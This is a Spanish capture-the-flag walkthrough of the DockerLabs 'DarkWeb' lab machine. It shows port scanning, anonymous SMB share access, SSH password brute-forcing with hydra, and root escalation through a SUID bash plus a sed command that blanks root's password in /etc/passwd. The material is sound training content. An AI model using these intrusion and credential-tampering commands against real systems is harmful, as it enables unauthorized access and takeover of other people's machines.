


Hoy realizamos la máquina **DarkWeb** de la plataforma [DockerLabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Difícil



# Reconocimiento

Comenzamos con un escaneo de `nmap`:

```css
nmap -sS -sV -sC --open --min-rate 5000 -n -Pn -p- -vvv 172.17.0.2 -oN escaneo.txt
```

```css
# Nmap 7.95 scan initiated Tue Dec 17 14:37:35 2024 as: nmap -sS -sV -sC --open --min-rate 5000 -n -Pn -p- -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000012s latency).
Scanned at 2024-12-17 14:37:35 -03 for 18s
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE     REASON         VERSION
22/tcp  open  ssh         syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 aa:df:30:8b:17:c5:3c:80:1c:88:f1:f8:c0:ac:cc:fa (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIwcQLG7cG3zykVrxNhY3Zf8Oeu1rZrDHXovo6xce8rYj7bvEKWHidRa32QtZQlumnfzwSMFrfeat8T1st72IVI=
|   256 aa:6a:33:65:fc:54:b7:8f:98:ff:1f:3d:79:a3:05:3c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPi9HNorx51v8Q8nh0LuhsEgTIC1KB/UrY6Sw5/Im9y4
139/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4
445/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2024-12-17T17:37:50
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 21783/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 25855/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 58197/udp): CLEAN (Failed to receive data)
|   Check 4 (port 25695/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: 0s

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Dec 17 14:37:53 2024 -- 1 IP address (1 host up) scanned in 18.68 seconds
```

Tenemos 3 puertos abiertos:

•`Puerto 22: OpenSSH 9.6p1`

•`Puerto 139: Samba smbd 4`

•`Puerto 445: Samba smbd 4`

y estamos frente a una maquina linux ubuntu.

Empezaremos intentando enumerar el puerto 139 y 445:

```css
netexec smb 172.17.0.2 -u "" -p "" --shares
```

```css
Share           Permissions     Remark
-----           -----------     ------
print$                          Printer Drivers
darkshare       READ            
IPC$                            IPC Service (a3c1d3aceb1b server (Samba, Ubuntu))
```

como vemos, podemos leer el recurso compartido "darkshare" sin necesidad de contraseña ni usuario, por lo que usaremos `smbclient` para entrar y ver que hay:

```css
smbclient //172.17.0.2/darkshare -U "" -N
```

una vez dentro, ejecutamos `ls` y vemos que dentro hay varios archivos:

```css
smb: \> ls
  .                                   D        0  Sat Dec 14 07:24:32 2024
  ..                                  D        0  Sat Dec 14 07:24:32 2024
  drugs.txt                           N      526  Sat Dec 14 07:17:49 2024
  ilegal.txt                          N      204  Sat Dec 14 07:24:32 2024
  credentials.txt                     N      631  Sat Dec 14 07:17:13 2024
  archivesDatabases.txt               N      563  Sat Dec 14 07:16:30 2024
  hackingServices.txt                 N      662  Sat Dec 14 07:18:19 2024

		240591404 blocks of size 1024. 189920392 blocks available
smb: \>
```

viendo que son varios, simplemente ejecutamos `mget *` y ya tendremos todos en nuestro host.

Teniendo todos los archivos, si revisamos el "ilegal.txt", veremos un mensaje en `rot 21` el cual dice lo siguiente:

```css
No le compartas esta pagina a nadie, solo quiero que lo veas tu, ya que esto me puede meter el problemas: l2fhivsrcbyt2nu5rilmvmqmhpzhugai5szrmyrsyboykzvsokfd6did.onion
```

Como vemos tenemos una web con `.onion`,  las cuales son dominios especiales que se utilizan en la red Tor para acceder a servicios ocultos y no son accesibles desde navegadores tradicionales (firefox, chrome). Por lo que para continuar, usaremos el navegador `torbrowser` , el cual se instala de la siguiente manera (en archlinux):

```css
sudo pacman -S torbrowser-launcher
```

Una vez instalado, lo abrimos y vamos al link encontrado. Luego de revisar el codigo fuente de todas las paginas, encuentro cosas interesantes en los siguientes:

• `marketplace.html`

• `redroom.html`

en el que `redroom.html` nos da un usuario: dark

y marketplace.html nos da un archivo llamado "passwordsListSecretWorld.txt" el cual parece tener contraseñas.




# Intrusión

Para entrar a la maquina, crearemos una wordlist con el archivo de contraseñas encontrado, y usaremos `hydra` para atacar el puerto 22 con el usuario dark:

```css
hydra -l dark -P wordlist ssh://172.17.0.2 -V
```


Teniendo la contraseña, nos conectamos a través de ssh:

```css
ssh dark@172.17.0.2
```

# Escalada de privilegios

### Dark

Ya al entrar a la máquina, noto que `bash` está raro, y probablemente tenga el bit SUID activado, esto por que cuando entramos, no nos sale el típico prompt y nos sale `-bash-5.2$`:


Luego de revisar el bash con `ls -l /bin/bash`, veo que efectivamente tiene el bit SUID activado, ya que entre sus permisos se encuentra una "s". Por lo que para escalar, ejecutaremos lo siguiente:

```css
bash -p
```

luego, ejecutamos lo siguiente para ser root al 100%:

```css
sed -i 's/root:x:/root::/g' /etc/passwd && su
```

## Root


Gracias por leer :)